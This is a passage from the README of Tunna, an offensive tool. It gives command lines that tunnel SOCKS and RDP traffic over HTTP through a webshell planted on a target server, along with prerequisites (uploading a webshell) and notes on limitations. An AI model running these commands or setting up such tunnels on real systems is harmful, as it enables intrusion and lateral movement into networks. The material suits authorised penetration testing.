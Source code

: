 	# This will start a Local SOCKS Proxy Server at port 8000
	# This connection will be wrapped over HTTP and unwrapped at the remote server

	python proxy.py -u http://10.3.3.1/conn.aspx -l 8000 -x https://192.168.1.100:3128 -A -v

	# This will start a Local SOCKS Proxy Server at port 8000
	# It will connect through a Local Proxy (https://192.168.1.100:3128) that requires authentication
	# to the remote Tunna webshell

	python proxy.py -u http://10.3.3.1/conn.aspx -l 4444 -r 3389 -b 8192 -v --no-socks

	# This will initiate a connection between the webshell and Remote host RDP (3389) service
	# The RDP client can connect on localhost port 4444
	# This connection will be wrapped over HTTP




Prerequisites
=============

	The ability to upload a webshell on the remote server


LIMITATIONS / KNOWN BUGS / HACKS
================================
	
	This is a POC code and might cause DoS of the server.
		All efforts to clean up after execution or on error have been made (no promises)

	Based on local tests: 		
		* JSP buffer needs to be limited (buffer option):
				4096 worked in Linux Apache Tomcat
				1024 worked in XAMPP Apache Tomcat (slow)
				* More than that created problems with bytes missing at the remote socket
				eg: ruby proxy.rb -u http://10.3.3.1/conn.jsp -l 4444 -r 3389 -b 1024 -v

		* Sockets not enabled by default:
			php windows (IIS + PHP)
			XAMPP Windows
			php linux (PHP bultin web server/apache + PHP)
		If you have the error Uncaught Error: Call to undefined function socket_create()
		see https://stackoverflow.com/questions/6137823/fatal-error-call-to-undefined-function-socket-create
		